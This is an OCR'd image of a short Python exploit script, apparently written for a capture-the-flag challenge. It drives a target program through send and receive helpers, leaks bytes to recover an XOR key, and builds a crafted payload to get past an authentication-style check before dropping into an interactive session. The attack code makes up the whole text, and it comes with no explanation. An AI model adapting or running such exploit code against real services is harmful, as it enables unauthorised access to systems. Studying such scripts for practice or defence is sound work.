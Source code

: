 ```python

all_possi = ["04e7a3cb66233a6c0f4d513421d4a74e"]

def do_xor(b1, b2):
    b1 = [ord(i) for i in b1]
    for i in range(len(b1)):
        b1[i] ^= ord(b2[i])
    return "".join([chr(i) for i in b1])

for p in all_possi:
    try:
        if 0:
            start_program(setting)
            senda("READY", "e"+"1"*32+"vnp")
            recvu("1"*32)
            s1 = recvn(4)
            print(hexlify(s1))
            interactive()
        if 0:
            start_program(setting)
            senda("READY", "e"+"1"*32+"vnp")
            recvu("1"*32)
            s1 = recvn(4)
            print(hexlify(s1))
            senda("READ", "np")
            recvu("1"*32)
            s2 = recvn(4)
            print(hexlify(s2))
            rand = do_xor(s1, s2)
            print(hexlify(rand))
            payload = ""
            for i in range(8):
                payload += do_xor(rand, p[i*4:i*4+4])
            senda("READ", "e"+payload+"joshua\nv")
            interactive()

        if 1:
            start_program(setting)
            senda("READY", "e"+"1"*32+"v"*7+"n"*0x16+"p")
            recvu("1"*32)
            senda("READY", "joshua\nvnp")
            recvu("1"*32)
            print(hexlify(recvn((0x20))))
            interactive()
            continue
    except Exception as e:
        continue
        print("[-] Error:", e)
        raw_input()
```